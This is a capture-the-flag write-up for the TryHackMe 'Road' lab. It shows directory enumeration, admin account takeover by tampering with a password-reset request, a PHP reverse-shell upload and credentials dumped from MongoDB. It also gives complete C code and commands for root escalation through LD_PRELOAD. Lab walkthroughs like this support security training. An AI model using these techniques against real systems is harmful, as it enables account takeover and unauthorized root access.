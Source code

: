 # 92 - Road (email hijacking, MongoDB, LD\_PRELOAD exploitation)

Room Link --> [https://tryhackme.com/room/road](https://tryhackme.com/room/road)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
SSH port 22
Port 80 HTTP
```
{% endcode %}

#### Gobuster enum

{% code overflow="wrap" %}
```bash
gobuster dir -e -u http://road.thm/ -t30 -w /usr/share/dirb/wordlists/common.txt -o gobuster.txt  -xjs,txt,php

index.html
phpMyAdmin
v2
```
{% endcode %}

{% code overflow="wrap" %}
```bash
gobuster dir -e -u http://road.thm/v2/ -t30 -w /usr/share/dirb/wordlists/common.txt  -xjs,txt,php

/v2/admin
/v2/index.php
/v2/lostpassword.php
/v2/profile.php
```
{% endcode %}

We have to register an account.

### Initial Access

The profile section displays the user profile and also an admin email which is probably the admin's username.&#x20;

<figure><img src=".gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

We can think about hijacking the email, we have a section to change the password of the registered user having the previous password, we can try to enter my username and credentials and capture the request using Burp Suite and change my username to admin email.

This way we can change the password of the Administrator user and we will have access to the file upload part.

<figure><img src=".gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Intercept with burpsuite and change the username to admin username.

<figure><img src=".gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

Login in as admin:

<figure><img src=".gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

Now we can upload a php reverse shell on the server.

After uploading, looking for where it was uploaded to, inspecting the source code and searching for `/v2` we see a dir, i checked it out but:

<figure><img src=".gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

Navigating to --> [http://road.thm/v2/profileimages/rev.php](http://road.thm/v2/profileimages/rev.php)

And the rev shell was triggered.

<figure><img src=".gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to webdeveloper

We enumerate the box using `ss -tl` .

```bash
www-data@sky:/home/webdeveloper$ ss -tl
State   Recv-Q  Send-Q     Local Address:Port       Peer Address:Port  Process  
LISTEN  0       4096           127.0.0.1:27017           0.0.0.0:*              
LISTEN  0       151            127.0.0.1:mysql           0.0.0.0:*              
LISTEN  0       4096       127.0.0.53%lo:domain          0.0.0.0:*              
LISTEN  0       128              0.0.0.0:ssh             0.0.0.0:*              
LISTEN  0       70             127.0.0.1:33060           0.0.0.0:*              
LISTEN  0       511            127.0.0.1:9000            0.0.0.0:*              
LISTEN  0       511                    *:http                  *:*              
LISTEN  0       128                 [::]:ssh                [::]:*       
```

MongoDB is running on 27017

Search google for MongoDB exploit, and found the [hacktricks blog](https://book.hacktricks.xyz/network-services-pentesting/27017-27018-mongodb)

```bash
www-data@sky:/home/webdeveloper$ mongo 127.0.0.1:27017
```

And we are in the DB interface.

```
> show dbs;
admin   0.000GB
backup  0.000GB
config  0.000GB
local   0.000GB
> use admin
switched to db admin
> show collections
system.version
> use backup
switched to db backup
> show collections
collection
user
> db.user.find()
{ "_id" : ObjectId("60ae2661203d21857b184a76"), "Month" : "Feb", "Profit" : "25000" }
{ "_id" : ObjectId("60ae2677203d21857b184a77"), "Month" : "March", "Profit" : "5000" }
{ "_id" : ObjectId("60ae2690203d21857b184a78"), "Name" : "webdeveloper", "Pass" : "BahamasChapp123!@#" }
{ "_id" : ObjectId("60ae26bf203d21857b184a79"), "Name" : "Rohit", "EndDate" : "December" }
{ "_id" : ObjectId("60ae26d2203d21857b184a7a"), "Name" : "Rohit", "Salary" : "30000" }
> 
```

We got credentials for "webdev..."

`webdeveloper : BahamasChapp123!@#`&#x20;

So we ssh into the account.

### Priv Esc to root

`sudo -l`&#x20;

```bash
webdeveloper@sky:~$ sudo -l
Matching Defaults entries for webdeveloper on sky:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    env_keep+=LD_PRELOAD

User webdeveloper may run the following commands on sky:
    (ALL : ALL) NOPASSWD: /usr/bin/sky_backup_utility
```

#### LD\_PRELOAD exploitation

`env_keep+=LD_PRELOAD`. I searched for what LD\_PRELOAD is. It allowed passing shared libraries that would be loaded when the program start.

I found a [great post on using LD\_PRELOAD to escalate privileges](https://www.hackingarticles.in/linux-privilege-escalation-using-ld\_preload/). I used the provided code to get root

We will create a shell in C:

{% code title="shell.c" %}
```bash
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
```
{% endcode %}

Now compile it with gcc

```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
sudo LD_PRELOAD=/tmp/shell.so /usr/bin/sky_backup_utility
```

```bash
webdeveloper@sky:~$ cd /tmp
webdeveloper@sky:/tmp$ vim shell.c
webdeveloper@sky:/tmp$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles
shell.c: In function ‘_init’:
shell.c:6:2: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
    6 |  setgid(0);
      |  ^~~~~~
shell.c:7:2: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
    7 |  setuid(0);
      |  ^~~~~~
webdeveloper@sky:/tmp$ sudo LD_PRELOAD=/tmp/shell.so /usr/bin/sky_backup_utility
# whoami
root
```

Done



